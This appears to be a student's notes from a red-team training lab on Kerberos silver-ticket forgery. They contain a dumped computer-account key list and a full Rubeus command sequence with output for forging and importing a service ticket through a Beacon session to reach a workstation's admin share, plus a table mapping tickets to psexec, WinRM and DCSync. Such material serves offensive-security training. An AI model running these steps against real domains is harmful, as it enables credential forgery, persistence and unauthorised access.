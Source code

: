 A "silver ticket" is a forged TGS, signed using the secret material (RC4/AES keys) of a computer account.  You may forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence.  By default, computer passwords change every 30 days, at which time you must re-obtain the new secrets to continue making silver tickets.  Both silver and golden (coming up next) tickets are forged, so can be generated on your own machine and imported into your Beacon session for use.

Let's say we dumped Kerberos keys from Workstation 1 from a SYSTEM Beacon.

```powershell
Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WKSTN-1$
Domain            : DEV
Logon Server      : (null)
Logon Time        : 9/9/2022 9:37:22 AM
SID               : S-1-5-20

	 * Username : wkstn-1$
	 * Domain   : DEV.CYBERBOTIC.IO
	 * Password : (null)
	 * Key List :
	   aes256_hmac       c9e598cd2a9b08fe31936f2c1846a8365d85147f75b8000cbc90e3c9de50fcc7
	   rc4_hmac_nt       fc0c8a61a83bafdffc587956d0020398
	   rc4_hmac_old      fc0c8a61a83bafdffc587956d0020398
	   rc4_md4           fc0c8a61a83bafdffc587956d0020398
	   rc4_hmac_nt_exp   fc0c8a61a83bafdffc587956d0020398
	   rc4_hmac_old_exp  fc0c8a61a83bafdffc587956d0020398
```
On your Windows attacking machine, use Rubeus to forge a TGS for nlamb and the cifs service.
- unsure where cifs service is pulled from, might just be default
- aes comes from the mimikatz dump above
- 
```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:c9e598cd2a9b08fe31936f2c1846a8365d85147f75b8000cbc90e3c9de50fcc7 /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : DEV.CYBERBOTIC.IO (DEV)
[*] SID            : S-1-5-21-569305411-121244042-2357301523
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : cifs
[*] Target         : wkstn-1.dev.cyberbotic.io

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGS for 'nlamb' to 'cifs/wkstn-1.dev.cyberbotic.io'

[*] AuthTime       : 9/9/2022 10:49:41 AM
[*] StartTime      : 9/9/2022 10:49:41 AM
[*] EndTime        : 9/9/2022 8:49:41 PM
[*] RenewTill      : 9/16/2022 10:49:41 AM

[*] base64(ticket.kirbi):

      doIFXD[...]MuaW8=
```
Then import the ticket.
```powershell
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
[-] could not open \\wkstn-1.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5668
[+] Ticket successfully imported!
[+] LUID            : 0x423091

beacon> steal_token 5668

beacon> ls \\wkstn-1.dev.cyberbotic.io\c$
[*] Listing: \\wkstn-1.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 08:17:30   $Recycle.Bin
          dir     08/15/2022 22:22:31   $WinREAgent
          dir     01/27/2022 18:18:49   Documents and Settings
          dir     12/07/2019 09:14:52   PerfLogs
          dir     08/22/2022 00:15:03   Program Files
          dir     10/06/2021 13:57:25   Program Files (x86)
          dir     09/08/2022 13:58:46   ProgramData
          dir     08/17/2022 17:52:54   Recovery
          dir     09/06/2022 08:17:28   System Volume Information
          dir     08/16/2022 08:15:58   Users
          dir     09/09/2022 10:38:50   Windows
 8kb      fil     09/09/2022 08:37:00   DumpStack.log.tmp
 796mb    fil     09/09/2022 08:37:00   hiberfil.sys
 704mb    fil     09/09/2022 08:37:00   pagefile.sys
 16mb     fil     09/09/2022 08:37:00   swapfile.sys
```

Here are some useful ticket combinations:

|   |   |
|---|---|
|**Technique**|**Required Service Tickets**|
|psexec|CIFS|
|winrm|HOST & HTTP|
|dcsync (DCs only)|LDAP|

